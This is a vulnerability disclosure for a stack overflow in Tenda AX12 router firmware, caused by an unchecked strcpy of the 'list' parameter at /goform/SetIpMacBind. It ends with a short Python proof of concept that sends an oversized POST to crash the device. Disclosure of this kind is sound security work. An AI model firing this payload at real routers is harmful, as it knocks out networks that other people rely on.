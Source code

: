 ## Vulnerability description ##
Affect device：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

## Vulnerability description ##
This vulnerability is a vulnerability overflow triggered in the **sub_42FDE4** function, which satisfies the request of the upper-level interface function **sub_430124**, that is, handles the post request under **/goform/SetIpMacBind**



First, sub_430124 calls the sub_42FFF8 function.

![](https://github.com/The-Itach1/IOT-CVE/blob/master/Tenda/AX12/1/image/Snipaste_2022-07-30_18-20-26.png)

In the **sub_42FFF8** function, the two parameters **bindnum** and **list** passed in by the post are obtained, and the address of the list value is used as the parameter of the **sub_42FDE4** function.

![](https://github.com/The-Itach1/IOT-CVE/blob/master/Tenda/AX12/1/image/Snipaste_2022-07-30_18-28-01.png)



**sub_42FDE4**, **strcpy(v16, v6)**, **v6** is the incoming **list** parameter, and no length limit and security check are used in this process, so the attacker can cause stack overflow through a long **list** and achieve denial of service attack.

![](https://github.com/The-Itach1/IOT-CVE/blob/master/Tenda/AX12/1/image/Snipaste_2022-07-30_18-33-51.png)



## POC ##

Poc of Denial of Service(DoS):

```python

import requests
from pwn import *

url = "http://192.168.0.1/goform/SetIpMacBind"
cookie = {"Cookie":"password=1111"}
data = {"bindnum": "1", "list":"\r" + "A" * 1000}


requests.post(url, cookies=cookie, data=data)
```
